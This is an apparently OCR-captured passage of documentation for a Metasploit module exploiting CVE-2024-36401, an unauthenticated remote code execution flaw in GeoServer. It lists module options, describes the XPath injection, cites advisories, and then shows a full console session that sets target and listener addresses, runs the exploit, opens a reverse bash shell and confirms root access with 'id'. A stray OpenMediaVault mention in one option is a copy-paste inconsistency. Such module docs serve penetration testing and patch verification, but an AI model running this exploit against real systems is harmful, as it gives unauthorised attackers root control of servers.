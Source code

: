 ```msf
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       The URI path of the OpenMediaVault web application
  URIPATH                     no        The URI to use for this exploit (default is random)
  VHOST                       no        HTTP server virtual host


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the
                                       local machine or 0.0.0.0 to listen on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  GeoServer is an open-source software server written in Java that provides
  the ability to view, edit, and share geospatial data.
  It is designed to be a flexible, efficient solution for distributing geospatial data
  from a variety of sources such as Geographic Information System (GIS) databases,
  web-based data, and personal datasets.
  In the GeoServer versions < 2.23.6, >= 2.24.0, < 2.24.4 and >= 2.25.0, < 2.25.1,
  multiple OGC request parameters allow Remote Code Execution (RCE) by unauthenticated users
  through specially crafted input against a default GeoServer installation due to unsafely
  evaluating property names as XPath expressions.
  An attacker can abuse this by sending a POST request with a malicious xpath expression
  to execute arbitrary commands as root on the system.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2024-36401
  https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv
  https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2024-36401
  https://attackerkb.com/topics/W6IDY2mmp9/cve-2024-36401


View the full module info with the info -d command.
```
###  GeoServer 2.23.5 on x64 Ubuntu 22.04 - cmd/unix/reverse_bash
```msf
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401)  > set rhosts 192.168.201.86
rhosts => 192.168.201.86
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401)  > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of GeoServer.
[+] The target is vulnerable. Version 2.23.5
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 7 opened (192.168.201.8:4444 -> 192.168.201.86:54072) at 2024-07-11 16:09:30 +0000

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
```